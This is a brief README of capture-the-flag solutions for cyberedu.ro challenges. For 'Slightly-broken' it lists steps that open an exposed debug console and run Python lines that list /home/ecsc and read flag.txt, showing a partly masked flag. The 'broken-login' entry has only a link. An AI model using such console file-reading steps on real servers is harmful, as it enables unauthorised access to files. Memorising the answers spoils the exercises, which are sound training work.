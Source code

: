 # CyberCTF

cyberedu.ro

* Slightly-broken
  * URL: https://app.cyberedu.ro/challenges/a29f2dc0-9502-11ea-b94c-cf34503f201a/
  * Solution
    1. Remove all getflag input variables
    2. Run the console on the getflag
    3. Import glob
    4. print(glob.glob("/home/ecsc/*")) >> ['/home/ecsc/app.py', '/home/ecsc/flag.txt']
    5. print(open('flag.txt', 'r').read()) >> ECSC{672**************************}
* broken-login
  * URL: https://app.cyberedu.ro/challenges/62bee6e0-356c-11eb-a033-199a06b529d6/
  * Solution
